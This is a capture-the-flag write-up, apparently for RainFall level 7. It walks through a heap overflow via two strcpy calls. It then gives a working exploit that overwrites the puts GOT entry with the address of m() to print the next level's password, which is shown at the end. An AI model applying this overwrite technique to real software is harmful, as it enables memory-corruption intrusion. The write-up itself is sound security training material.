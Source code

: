 # Level 7

This time we still have `malloc()` calls but most importantly,
after this there is two `strcpy()`, a call to `fgets()` to get the data of `.pass` and a call to `puts()`

Lets try to overflow the `malloc()`'ed strings:

```bash
level7@RainFall:~$ ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII 0000111122223333444455556666
Segmentation fault (core dumped)
level7@RainFall:~$ dmesg
[...]
[110698.290281] level7[29932]: segfault at 46464646 ip b7eb8b59 sp bffff5f4 error 6 in libc-2.15.so[b7e2c000+1a3000]
```

With this we can see that we fault at the `0x46464646` address, which is where we've put our `F`s.

Let's understand what is happening.
Basically, there is two `strcpy()` calls like this:

```c
strcpy(tab1[1], argv[1]);
strcpy(tab2[1], argv[2]);
```

Our goal is to overflow `tab1[1]` enough so the address located at `tab2[1]` is something else than a string.
This is what happens when we write too much on `argv[1]`, as we saw it tries to write something at the address `0x46464646`.
To be sure of this let's try with another address.
We can write unwritable characters with `echo -ne`.
- `-n` is to not have a trailing `\n`
- `-e` is to compute excape sequences, in our case the `\xff`

```bash
level7@RainFall:~$ ./level7 `echo -ne "AAAABBBBCCCCDDDDEEEE\xff\xff\xff\xff"` whatever
Segmentation fault (core dumped)
level7@RainFall:~$ dmesg
[...]
[111283.212093] level7[29953]: segfault at ffffffff ip b7eb8f92 sp bffff61c error 7 in libc-2.15.so[b7e2c000+1a3000]
```

So it works as intended. We can write data at arbitrary positions. Now where and what to write?

The call to `fgets()` is the following:

```c
fgets(c, 0x44, "/home/user/level8/.pass");
puts("~~");
```

The variable `c` is a global variable.
We can also find another function, `m()`, that does the following:

```c
void	m() {
	printf("%c - %d\n", c, time(0));
}
```

Perfect! There is a function that prints our `c` variable!

Now it should look familiar to you, as it the same thing as the level 5.
We will overwrite the GOT where `puts()` is stored to write the address of `m()`

```gdb
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:     push   0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
[...]
End of assembler dump.
```

So we need to write `0x080484f4` at the address `0x8049928`:

```bash
level7@RainFall:~$ ./level7 \
> `echo -ne "AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08"` \
> `echo -ne "\xf4\x84\x04\x08"`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1715685503
```

Works like a charm!

## .pass: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9